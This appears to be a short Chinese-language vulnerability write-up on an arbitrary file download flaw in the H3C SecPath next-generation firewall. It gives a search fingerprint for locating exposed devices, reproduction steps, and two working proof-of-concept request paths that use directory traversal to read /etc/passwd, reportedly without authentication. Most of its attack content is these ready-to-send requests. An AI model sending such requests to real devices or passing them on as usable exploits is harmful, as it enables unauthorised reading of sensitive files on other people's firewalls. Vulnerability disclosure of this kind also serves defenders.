 # H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## 网络测绘

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](./images/202202110914717.png)

存在漏洞点的功能有两个

![](./images/202202110914728.png)

点击下载抓包更改请求

![](./images/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```